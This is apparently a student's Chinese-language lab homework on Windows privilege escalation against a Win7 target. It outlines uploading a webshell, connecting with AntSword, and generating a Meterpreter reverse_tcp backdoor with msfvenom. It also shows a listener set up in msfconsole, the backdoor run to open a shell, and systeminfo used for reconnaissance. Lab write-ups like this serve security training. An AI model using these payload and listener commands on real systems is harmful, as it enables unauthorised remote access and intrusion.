 ## 作业2
### windows提权实战
```
靶机为win7
1.通过文件上传，在win7上传一个webshell，然后通过蚁剑连接，得到win7普通用户的权限

2.通过kali的msf制作一个后门程序，通过得到的普通用户权限，将后门文件上传到靶机

3. 通过kali监听后门程序

4. 在目标机器上运行后门程序

5. kali中目标机器上线， 拿到meterpreter命令行，形成会话

6. 结合其他漏洞实现提权
```
- 使用msfvenom生成后门程序
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.99 lport=5555 -f exe -o 5555.exe
```

- 开启msf监听
```
msfconsole
use exploit/multi/handler
options
set payload windows/x64/meterpreter/reverse.tcp
set lhost 192.168.0.99
set lport 5555
run
```
- 通过蚁剑，将5555.exe上传到指定位置，然后通过虚拟终端，直接执行5555.exe
- 在kali上得到meterpreter
- 在kali上进入shell，通过systeminfo进行信息收集
```
shell -> systeminfo
```